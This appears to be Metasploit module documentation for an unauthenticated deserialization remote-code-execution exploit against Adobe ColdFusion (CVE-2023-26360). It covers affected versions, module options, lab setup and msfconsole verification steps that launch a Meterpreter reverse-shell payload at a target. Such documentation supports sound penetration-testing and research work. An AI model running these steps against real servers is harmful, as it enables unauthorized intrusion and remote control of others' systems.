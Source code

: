 ## Vulnerable Application
This module leverages an unauthenticated remote code execution vulnerability due to deserialization of untrusted data
in Adobe ColdFusion. The vulnerability affects ColdFusion 2021 Update 5 and earlier as well as ColdFusion 2018 Update
15 and earlier. For a full technical analysis of the vulnerability read the
[Rapid7 AttackerKB Analysis](https://attackerkb.com/topics/1iRdvtUgtW/cve-2023-26359/rapid7-analysis).

## Options
A default installation of ColdFusion will not require any of the below options to be configured as the default
values will work.

### CFC_ENDPOINT
The exploit requires a valid ColdFusion Component (CFC) endpoint to be reachable, although no method on this endpoint
will be called as the vulnerability is triggered before a remote method from the endpoint is called. Therefore this
option can be set to any CFC endpoint. By default this is set to
`/cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/iedit.cfc` which is present in a default installation
of ColdFusion.

### CF_LOGFILE
This is the log file where the exploit will write arbitrary ColdFusion Markup Language (CFML) to. The path is relative
to the `wwwroot` folder. By default this value is `../logs/coldfusion-out.log` and should not need to be changed.

## Testing
To setup a test environment, the following steps can be performed.
1. Setup either a Windows Server 2022 VM or a Ubuntu 22.04 VM.
2. Download either the [Windows ColdFusion 2021 Update 5
installer](https://cfdownload.adobe.com/pub/adobe/coldfusion/2021/cfinstaller/cf2021u5/ColdFusion_2021_GUI_WWEJ_win64.exe)
or the [Linux ColdFusion 2021 Update 5
installer](https://cfdownload.adobe.com/pub/adobe/coldfusion/2021/cfinstaller/cf2021u5/ColdFusion_2021_GUI_WWEJ_linux64.bin)
and install it.
3. Configure the ColdFusion server for production use and enable the Secure Profile during setup.
4. By default, Coldfusion will serve HTTP from TCP port 8500. Configure the operating system firewall to allow remote
access to this port. For example on Linux you can run `sudo ufw allow 8500/tcp`.
5. Follow the verification steps below.

## Verification Steps
1. Start msfconsole
2. `use exploit/multi/http/adobe_coldfusion_rce_cve_2023_26360`
3. `set LHOST eth0`
4. `set RHOST <TARGET_IP>`
5. `set target 3`
6. `set PAYLOAD linux/x64/meterpreter/reverse_tcp`
7. `check`
8. `exploit`
